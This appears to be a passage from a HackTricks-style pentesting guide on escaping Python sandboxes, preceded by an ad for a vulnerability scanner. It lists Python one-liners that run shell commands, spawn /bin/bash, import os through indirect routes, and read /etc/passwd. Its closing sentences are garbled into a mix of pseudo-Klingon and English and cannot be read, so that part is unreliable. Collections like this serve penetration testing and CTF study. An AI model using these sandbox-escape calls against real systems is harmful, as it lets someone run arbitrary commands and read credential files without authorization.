 Find vulnerabilities that matter most so you can fix them faster. Intruder tracks your attack surface, runs proactive threat scans, finds issues across your whole tech stack, from APIs to web apps and cloud systems. [**Try it for free**](https://www.intruder.io/?utm\_source=referral\&utm\_campaign=hacktricks) today.

{% embed url="https://www.intruder.io/?utm_campaign=hacktricks&utm_source=referral" %}

***

These are some tricks to bypass python sandbox protections and execute arbitrary commands.

## Command Execution Libraries

The first thing you need to know is if you can directly execute code with some already imported library, or if you could import any of these libraries:
```python
os.system("ls")
os.popen("ls").read()
commands.getstatusoutput("ls")
commands.getoutput("ls")
commands.getstatus("file/path")
subprocess.call("ls", shell=True)
subprocess.Popen("ls", shell=True)
pty.spawn("ls")
pty.spawn("/bin/bash")
platform.os.system("ls")
pdb.os.system("ls")

#Import functions to execute commands
importlib.import_module("os").system("ls")
importlib.__import__("os").system("ls")
imp.load_source("os","/usr/lib/python3.8/os.py").system("ls")
imp.os.system("ls")
imp.sys.modules["os"].system("ls")
sys.modules["os"].system("ls")
__import__("os").system("ls")
import os
from os import *

#Other interesting functions
open("/etc/passwd").read()
open('/var/www/html/input', 'w').write('123')

#In Python2.7
execfile('/usr/lib/python2.7/os.py')
system('ls')
```
**ghItlhvam** _**open**_ **je** _**read**_ **ghItlhvam** **files** **cha'logh** **python sandbox** **'ej** **code** **cha'logh** **bIghel** **bypass**.

{% hint style="danger" %}
**Python2 input()** **function** **python code** **program crashes** **bIghel**.
{% endhint %}
